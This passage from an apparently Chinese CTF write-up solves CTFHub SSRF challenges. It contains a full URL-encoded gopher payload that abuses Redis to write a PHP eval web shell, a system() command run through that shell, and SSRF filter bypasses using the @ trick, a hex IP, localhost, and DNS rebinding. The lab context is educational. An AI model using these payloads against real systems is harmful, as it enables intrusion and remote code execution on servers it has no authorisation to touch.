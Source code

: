 再经过url编码

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_GET%255B%2522cmd%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

执行`url/shell.php?cmd=system('find / -name flag*');`，找到可疑文件。<figure class="wp-block-image size-full">

<img loading="lazy" width="1836" height="78" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-222.png" alt="" class="wp-image-3198" /> </figure> 

cat一下就出来flag了。

## 0x08 URL Bypass

题目：请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

构造`url?url=http://notfound.ctfhub.com@127.0.0.1/flag.php`

## 0x09 数字IP Bypass

题目：这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢

转换成16进制，构造`url?url=0x7f000001/flag.php`

## 0x0A 302跳转 Bypass

题目：SSRF中有个很重要的一点是请求可能会跟随302跳转，尝试利用这个来绕过对IP的检测访问到位于127.0.0.1的flag.php吧

先直接构造`url?url=127.0.0.1/flag.php`访问<figure class="wp-block-image size-full">

<img loading="lazy" width="217" height="26" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-216.png" alt="" class="wp-image-3177" /> </figure> 

改成localhost，成功。

## 0x0B DNS重绑定 Bypass

关键词：DNS重绑定。剩下的自己来吧，也许附件中的链接能有些帮助

提供了一个附件：<a href="https://zhuanlan.zhihu.com/p/89426041" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://zhuanlan.zhihu.com/p/89426041</a>

答案参考附件就出来了。
